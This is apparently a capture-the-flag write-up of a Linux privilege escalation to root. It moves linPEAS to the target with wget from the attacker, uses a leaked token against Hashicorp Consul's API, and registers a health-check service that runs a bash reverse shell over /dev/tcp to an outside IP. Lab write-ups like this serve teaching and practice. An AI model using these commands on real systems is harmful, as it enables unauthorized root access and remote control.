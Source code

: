 Now for the root flag, I usually use [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a binary which enumerates vulnerabilities we can use in order to escalate privileges. So I will get `linpeas.sh` from my attack machine to the target with a python web server.

```bash
python3 -m http.server
```

On the target machine:

```bash
wget http://$ATTACKER:8000/linpeas.sh -O /tmp/linpeas.sh
```

Now we mark it as executable and execute it.

![peasconusl.png](../_resources/peasconusl.png)

We found some interesting files. Upon further manual inspection, I found that it is running Hashicorp Consul, which can be exploited through Metasploit(https://www.exploit-db.com/exploits/46074).

# How does the exploit work?

The exploit interacts with the consul restful API located at `localhost` on port `8500` by default

![localhost.png](../_resources/localhost.png)

A valid token can be found in `/opt/my-app`...

![git.png](../_resources/git.png)

... which could have been used to interact with consul key/value store. We try again using the token to get a valid response:

```bash
curl --header "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" http://127.0.0.1:8500/v1/agent/self
```

Now we can manually create and run a service for consul. Services have "health checks" which can run scripts and get us a privileged shell

https://developer.hashicorp.com/consul/docs/discovery/checks

![json.png](../_resources/json.png)

And we create `rev_shell.sh`, which will contain the commands to be executed by the service.

```bash
#!/bin/bash
bash -i &>/dev/tcp/10.10.14.175/4444 <&1
```

Finally we register the service...

![final.png](../_resources/final.png)

NOTE: service can be debugged using `curl --header "X-Consul-Token: <token>" http://127.0.0.1:8500/v1/agent/health/service/id/<service_id>`

![root.png](../_resources/root.png)

...and get a root shell on the other side.